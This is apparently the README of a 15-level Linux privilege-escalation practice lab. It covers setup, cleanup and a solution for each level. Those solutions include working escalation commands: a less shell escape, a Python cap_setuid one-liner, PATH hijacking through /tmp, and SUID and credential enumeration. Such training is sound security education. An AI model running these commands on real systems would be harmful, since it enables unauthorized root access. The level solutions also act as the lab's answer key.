

# 🛡️ Enterprise Linux Privilege Escalation Lab

A **realistic, 15-level Linux privilege escalation lab** designed for Red Teamers, penetration testers, and security learners who want to practice **real-world misconfigurations**, not CTF gimmicks.

<p align="center">
  
</p>

<p align="center">
  <a href="#-features"></a>
  <a href="#-attack-vectors"></a>
  <a href="#-quick-installation"></a>
  <a href="#-requirements"></a>
</p>

---

## 📋 Table of Contents
- [🔥 Features](#-features)
- [🧠 Attack Flow](#-attack-flow)
- [🎯 Challenge Matrix](#-challenge-matrix)
- [🛡️ Attack Vectors Covered](#️-attack-vectors-covered)
- [⚙️ Requirements](#️-requirements)
- [🚀 Quick Installation](#-quick-installation)
- [📦 Detailed Installation](#-detailed-installation)
- [🎮 Usage Guide](#-usage-guide)
- [📚 Level Details](#-level-details)
- [💡 Walkthrough Tips](#-walkthrough-tips)
- [🧹 Cleanup](#-cleanup)
- [🔧 Troubleshooting](#-troubleshooting)
- [🤝 Contributing](#-contributing)
- [📄 License](#-license)
- [⚠️ Disclaimer](#️-disclaimer)

---

## 🔥 Features

- **15 Progressive Levels**: Each level builds on the previous one - no shortcuts to root!
- **Real Enterprise-Style Misconfigurations**: Not CTF gimmicks, but real-world scenarios
- **Multiple Linux PrivEsc Techniques**: Covers the most common privilege escalation vectors
- **Fully Automated Lab Setup**: One command creates the entire lab
- **Interactive Shell Selection**: Choose between bash or zsh for all users
- **Clean User Isolation**: Each user has proper permissions and home directories
- **No External Tools Required**: Everything is built-in
- **Complete Cleanup**: Automated removal script leaves no trace
- **Educational Focus**: Learn by doing in a safe environment

---

## 🧠 Attack Flow

```
user1 → user2 → user3 → user4 → user5 → user6 → user7 → user8 → 
user9 → user10 → user11 → user12 → user13 → user14 → user15 → root
```

**Entry Point:** `user1`  
**Final Goal:** `root` flag access

---

## 🎯 Challenge Matrix

| Level | From | To | Technique | Real-World Example | Difficulty |
|-------|------|-----|-----------|-------------------|------------|
| 1 | user1 | user2 | **Sudo Python Script** - Python script with sudo to read sensitive logs | Log management scripts | ⭐☆☆☆☆ |
| 2 | user2 | user3 | **World-Readable Backup** - Credentials in world-readable backup file | Misconfigured backups | ⭐☆☆☆☆ |
| 3 | user3 | user4 | **Git History Exposure** - Production credentials in git history | .git directory exposure | ⭐⭐☆☆☆ |
| 4 | user4 | user5 | **Sudo Script Execution** - Running deployment script as another user | CI/CD pipelines | ⭐⭐☆☆☆ |
| 5 | user5 | user6 | **SUID Binary** - Custom C binary with SUID bit | Legacy applications | ⭐⭐⭐☆☆ |
| 6 | user6 | user7 | **Less Escape** - Sudo + less shell escape | Monitoring tools | ⭐⭐⭐☆☆ |
| 7 | user7 | user8 | **Linux Capabilities** - Python with cap_setuid+ep | Container environments | ⭐⭐⭐☆☆ |
| 8 | user8 | user9 | **Group Execution** - Script executable by group | Shared scripts | ⭐⭐☆☆☆ |
| 9 | user9 | user10 | **Hidden Files** - Credentials in .config dotfiles | Developer machines | ⭐☆☆☆☆ |
| 10 | user10 | user11 | **Database Configs** - Connection strings with passwords | Web applications | ⭐☆☆☆☆ |
| 11 | user11 | user12 | **PATH Hijack** - Sudo with insecure PATH | System monitoring | ⭐⭐⭐⭐☆ |
| 12 | user12 | user13 | **World-Writable Share** - NFS share + backup file | Shared storage | ⭐⭐☆☆☆ |
| 13 | user13 | user14 | **Group-Owned Script** - Script owned by next user's group | Log rotation | ⭐⭐☆☆☆ |
| 14 | user14 | user15 | **Sudo to User** - Direct sudo rule to specific user | Privileged access | ⭐☆☆☆☆ |
| 15 | user15 | root | **Final Flag** - Read root-owned flag file | - | ⭐☆☆☆☆ |

---

## 🛡️ Attack Vectors Covered

| Category | Techniques | Real-World Scenarios |
|----------|------------|---------------------|
| **Sudo Misconfigurations** | • Python script sudo<br>• Sudo to specific user<br>• Less escape<br>• PATH hijacking | • Log management tools<br>• Admin scripts<br>• Monitoring systems<br>• CI/CD pipelines |
| **File Permissions** | • World-readable backups<br>• World-writable shares<br>• Hidden dotfiles<br>• Database configs | • Backup misconfigurations<br>• Shared storage<br>• Developer machines<br>• Web applications |
| **SUID/Capabilities** | • Custom SUID binaries<br>• Linux capabilities | • Legacy applications<br>• Container environments |
| **Version Control** | • Git history exposure | • Source code leaks |
| **Group Permissions** | • Group-executable scripts<br>• Group-owned files | • Shared team scripts<br>• Maintenance tools |

---

## ⚙️ Requirements

- **OS**: Linux (Kali Linux, Ubuntu 20.04+, Debian 11+, CentOS 8+)
- **Privileges**: **Root access** (required for installation)
- **Disk Space**: ~100MB
- **Memory**: 512MB minimum
- **Packages** (installed automatically if needed):
  - `gcc` (optional - for SUID binary)
  - `git` (for Level 3)
  - `python3` (for Levels 1 & 7)
  - `less` (for Level 6)
  - `zsh` (optional - if chosen)

### Tested On:
- ✅ Kali Linux
- ✅ Ubuntu 22.04 LTS
- ✅ Debian 12
- ✅ CentOS 9
- ✅ Arch Linux

---

## 🚀 Quick Installation

```bash
# Clone the repository
git clone https://github.com/pashamasr01287654800/privilege-escalation-playground.git

# Enter the directory
cd privilege-escalation-playground

# Make the script executable
chmod +x lab.sh

# Run as root
sudo ./lab.sh
```

---

## 📦 Detailed Installation

### Step 1: Clone the Repository
```bash
git clone https://github.com/pashamasr01287654800/privilege-escalation-playground.git
cd privilege-escalation-playground
```

### Step 2: Make Script Executable
```bash
chmod +x lab.sh
```

### Step 3: Run Installation
```bash
sudo ./lab.sh
```

### Step 4: Choose Shell
When prompted, select your preferred shell:
- `1` for Bash (standard)
- `2` for Zsh (if installed)

The script will verify your choice and proceed with installation.

### Step 5: Installation Complete
You'll see a success message with login credentials for `user1`.

---

## 🎮 Usage Guide

### Login as user1
```bash
# Via SSH (if enabled)
ssh user1@localhost

# Or via su
su - user1
```

**Password:** `X9!kR@2#M7QZt8Lp`

### Start Exploring
```bash
# Check your identity
id

# Check sudo permissions
sudo -l

# Look around
ls -la /home
find / -type f -name "*.log" 2>/dev/null
```

### Password Reference
All passwords are stored in `/root/passwords.txt`:
```bash
sudo cat /root/passwords.txt
```

---

## 📚 Level Details

### Level 1 → 2: Sudo Python Script
**Location:** `/var/log/helpdesk/tickets.log`  
**Technique:** Python script with sudo privileges

```bash
sudo /usr/local/bin/log_reader.py
# Output contains: user2:password
```

### Level 2 → 3: World-Readable Backup
**Location:** `/var/backups/app/creds.txt`  
**Technique:** Insecure file permissions

```bash
cat /var/backups/app/creds.txt
# Find: DB_PASS for user3
```

### Level 3 → 4: Git History Exposure
**Location:** `/srv/dev/app/`  
**Technique:** Credentials in git commits

```bash
cd /srv/dev/app
git log
git show <commit-hash>
# Find: DB_PASS for user4
```

### Level 4 → 5: Sudo Script Execution
**Location:** `/opt/deployment/scripts/deploy_app.sh`  
**Technique:** Running script as another user

```bash
sudo -u user5 /usr/local/bin/deploy production
# Script drops you into user5 shell
```

### Level 5 → 6: SUID Binary
**Location:** `/opt/tools/pivot`  
**Technique:** SUID privilege escalation

```bash
/opt/tools/pivot
# Binary sets UID to 1006 (user6)
```

### Level 6 → 7: Less Escape
**Location:** `/etc/app/config/app.conf`  
**Technique:** Sudo + less shell escape

```bash
sudo /usr/bin/less /etc/app/config/app.conf
# Inside less, type: !/bin/bash
# Then read config for user7 password
```

### Level 7 → 8: Linux Capabilities
**Location:** `/usr/local/bin/python3-custom`  
**Technique:** cap_setuid+ep capability

```bash
/usr/local/bin/python3-custom -c 'import os; os.setuid(1008); os.system("/bin/bash")'
# You become user8
```

### Level 8 → 9: Group Execution
**Location:** `/opt/scripts/maintenance/backup.sh`  
**Technique:** Script executable by group

```bash
/opt/scripts/maintenance/backup.sh
# Script gives you user9 shell
```

### Level 9 → 10: Hidden Files
**Location:** `/home/user9/.config/user_data`  
**Technique:** Credentials in dotfiles

```bash
cat /home/user9/.config/user_data
# Find password for user10
```

### Level 10 → 11: Database Configs
**Location:** `/etc/db/credentials/connection.ini`  
**Technique:** Database connection strings

```bash
cat /etc/db/credentials/connection.ini
# Find password for user11
```

### Level 11 → 12: PATH Hijack
**Location:** `/usr/local/bin/monitor.sh`  
**Technique:** Insecure PATH in sudo

```bash
# Create malicious binary
echo '#!/bin/bash' > /tmp/date
echo '/bin/bash' >> /tmp/date
chmod +x /tmp/date
export PATH=/tmp:$PATH
sudo /usr/local/bin/monitor.sh
# Get root shell, find user12 password
```

### Level 12 → 13: World-Writable Share
**Location:** `/mnt/nfs_share/` and `/etc/passwd.bak`  
**Technique:** World-writable directory + backup

```bash
cd /mnt/nfs_share
cat note.txt
# Follow clue to /etc/passwd.bak
cat /etc/passwd.bak
# Find user13 password
```

### Level 13 → 14: Group-Owned Script
**Location:** `/usr/local/bin/system_rotate.sh`  
**Technique:** Script owned by next user's group

```bash
/usr/local/bin/system_rotate.sh
# Script checks EUID and gives shell
```

### Level 14 → 15: Sudo to User
**Location:** `/etc/sudoers.d/u14`  
**Technique:** Direct sudo rule

```bash
sudo -u user15 /bin/bash
# You become user15
```

### Level 15 → Root: Final Flag
**Location:** `/root/flag.txt`  
**Technique:** Read root-owned file

```bash
cat /root/flag.txt
# Congratulations! You've completed the chain
```

---

## 💡 Walkthrough Tips

### Essential Enumeration Commands
```bash
# Identity
id && whoami

# Sudo privileges
sudo -l

# SUID binaries
find / -perm -4000 2>/dev/null

# SGID binaries
find / -perm -2000 2>/dev/null

# Capabilities
getcap -r / 2>/dev/null

# Sudo rules
ls -la /etc/sudoers.d/

# Writable files
find / -writable -type f 2>/dev/null | grep -v proc

# World-readable files with passwords
grep -r "password\|PASS" /etc/ 2>/dev/null

# Hidden files
find /home -name ".*" -type f 2>/dev/null

# Backup files
find / -name "*.bak" -o -name "*.backup" 2>/dev/null

# Git repositories
find / -name ".git" -type d 2>/dev/null

# Process list
ps aux | grep -v root
```

### Methodology
1. **Enumerate** everything
2. **Check sudo** permissions first
3. **Look for readable** config files
4. **Find writable** locations
5. **Check history** files and git
6. **Search for backups**
7. **Test capabilities**
8. **Always read error messages**

---

## 🧹 Cleanup

### Option 1: Using the Script
```bash
sudo ./lab.sh
# Choose option 2 (Cleanup)
```

### Option 2: One-Line Cleanup
```bash
# Remove everything with one command
sudo ./lab.sh <<< "2" && echo "y"
```

### Option 3: Manual Cleanup
```bash
# Remove sudoers files
rm -f /etc/sudoers.d/u{1,4,6,11,14} 2>/dev/null

# Remove users
for i in {15..1}; do 
    userdel -r user$i 2>/dev/null || true
done

# Remove lab files
rm -rf /var/log/helpdesk /var/backups/app /srv/dev /opt/deployment \
       /opt/tools /opt/qa /opt/services /opt/scripts /etc/app /etc/db \
       /mnt/nfs_share /mnt/share /root/passwords.txt /root/flag.txt \
       /etc/passwd.bak /usr/local/bin/log_reader.py /usr/local/bin/deploy \
       /usr/local/bin/python3-custom /usr/local/bin/monitor.sh \
       /usr/local/bin/system_rotate.sh /opt/pivot /opt/pycap 2>/dev/null
```

---

## 🔧 Troubleshooting

### Common Issues and Solutions

| Issue | Solution |
|-------|----------|
| **"gcc not found" warning** | Not critical - script creates fallback binary |
| **Users can't login** | Check if shell exists: `which bash` or `which zsh` |
| **Sudoers syntax error** | Run `visudo -c` to verify syntax |
| **Capabilities not working** | Check filesystem: `mount \| grep capabilities` |
| **Git commands fail** | Install git: `apt install git` or `yum install git` |
| **Python not found** | Install python3: `apt install python3` |
| **Permission denied** | Make sure you're running as root |
| **Zsh not found** | Choose bash (option 1) or install zsh manually |

### Verification Script
```bash
# Test the installation
/root/test_lab.sh
```

### Check User Existence
```bash
for i in {1..15}; do 
    id user$i &>/dev/null && echo "✓ user$i exists" || echo "✗ user$i missing"
done
```

---

## 🤝 Contributing

Contributions are welcome! Here's how you can help:

### Ways to Contribute
- **Add new levels** - Create more privilege escalation scenarios
- **Improve documentation** - Better explanations and walkthroughs
- **Report bugs** - Open an issue on GitHub
- **Suggest enhancements** - New techniques or improvements
- **Translate** - Help with translations

### Guidelines
1. Maintain progressive difficulty
2. Keep permissions realistic
3. Document thoroughly
4. Test on clean systems
5. Follow the existing structure

### Pull Request Process
1. Fork the repository
2. Create a feature branch
3. Commit your changes
4. Push to your fork
5. Open a Pull Request

---

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

```
MIT License

Copyright (c) 2024 Enterprise Linux PrivEsc Lab

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files...
```

---

## ⚠️ Disclaimer

**This lab is for educational purposes only.**

The techniques demonstrated in this lab should **ONLY** be used:
- In your **own lab environment**
- On systems you **own** or have **explicit written permission** to test
- For **learning** and **improving security skills**

### 🚫 Never use these techniques:
- On systems you don't own
- Without proper authorization
- For malicious purposes
- In production environments

**Violating this disclaimer may be illegal and unethical. The authors and contributors are not responsible for any misuse.**

---

## 📊 Statistics

- **Total Levels**: 15
- **Total Users**: 15
- **Attack Techniques**: 12
- **CWE Covered**: 8
- **MITRE Techniques**: 6
- **Installation Time**: < 1 minute
- **Average Completion Time**: 30-60 minutes
- **Lines of Code**: ~800
- **Files Created**: ~30

---

## 🙏 Acknowledgments

- [GTFOBins](https://gtfobins.github.io/) - For shell escape techniques
- [HackTricks](https://book.hacktricks.xyz/) - For privilege escalation methodology
- [LinPEAS](https://github.com/carlospolop/PEASS-ng) - For enumeration inspiration
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) - For techniques
- The infosec community - For sharing knowledge

---

## 📞 Contact & Support

- **GitHub Issues**: [Report a bug](https://github.com/pashamasr01287654800/privilege-escalation-playground/issues)
- **Discussions**: Join the conversation
- **Email**: [your-email@example.com]

---

<p align="center">
  <b>⭐ Star this repository if you found it useful! ⭐</b>
</p>

<p align="center">
  <a href="#-enterprise-linux-privilege-escalation-lab">Back to Top</a>
</p>

---

<p align="center">
  <i>Happy Hacking! Remember: With great power comes great responsibility.</i>
  <br>
  
</p>
